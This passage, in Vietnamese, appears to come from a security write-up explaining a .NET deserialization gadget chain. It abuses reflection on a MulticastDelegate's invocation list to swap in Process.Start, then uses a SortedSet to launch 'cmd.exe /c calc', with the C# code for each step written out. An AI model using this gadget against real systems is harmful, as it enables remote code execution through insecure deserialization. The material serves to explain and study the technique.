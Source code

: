 ```csharp
public delegate int Comparison<in T>(T x, T y);
```

Điều quan trọng là trong phương thức `Compare`, ta thấy delegate này được gọi. Vậy nếu ta có thể tạo ra một phương thức được delegate trong lớp `ComparisonComparer` và chỉ định `Process.Start` làm phương thức so sánh, thì mỗi khi phương thức `Compare` được gọi, `Process.Start` sẽ được kích hoạt.

### Kỹ thuật lách qua ràng buộc kiểu dữ liệu
Mặc dù `ComparisonComparer` là lớp `internal` trong `Comparer` và không thể được khởi tạo từ các lớp khác ngoài `Comparer`, nhưng nó được cung cấp qua phương thức `Comparer.Create`, cho phép ta tạo ra một đối tượng `ComparisonComparer`.

Vấn đề tiếp theo là phương thức `Comparison` yêu cầu một phương thức trả về kiểu `int`, trong khi `Process.Start` lại trả về kiểu `Process`. Tuy nhiên, ta có thể khai thác một vấn đề lâu dài trong .NET Framework, nơi ràng buộc kiểu không luôn được thi hành, và thay thế một phương thức trong một đối tượng `MulticastDelegate` bằng một phương thức trả về kiểu khác, trong trường hợp này là `Process.Start`.

### Các bước trong mã khai thác
1. **Tạo `Comparison<T>` Delegate với `string.Compare`:**
   ```csharp
   Delegate stringCompare = new Comparison<string>(string.Compare);
   ```

2. **Tạo `MulticastDelegate` bằng cách kết hợp hai phương thức `string.Compare`:**
   ```csharp
   Comparison<string> multicastDelegate = (Comparison<string>)MulticastDelegate.Combine(stringCompare, stringCompare);
   ```

3. **Tạo `ComparisonComparer` bằng `Comparer.Create` và truyền `multicastDelegate`:**
   ```csharp
   IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);
   ```

4. **Truy cập trường `_invocationList` trong `MulticastDelegate` và thay thế một phương thức với `Process.Start`:**
   ```csharp
   FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
   object[] invoke_list = multicastDelegate.GetInvocationList();
   invoke_list[1] = new Func<string, string, Process>(Process.Start);
   fi.SetValue(multicastDelegate, invoke_list);
   ```

5. **Tạo một `SortedSet` với `ComparisonComparer` và thêm các chuỗi sẽ được truyền vào `Process.Start`:**
   ```csharp
   SortedSet<string> sortedSet = new SortedSet<string>(comparisonComparer);
   sortedSet.Add("/c calc");
   sortedSet.Add("C:\\Windows\\System32\\cmd.exe");
   ```

Kết quả của việc chạy gadget này là một cửa sổ máy tính (calculator) sẽ xuất hiện, và như chúng ta đã biết, phương thức `Compare` sẽ được gọi khi quá trình deserialization xảy ra.

---
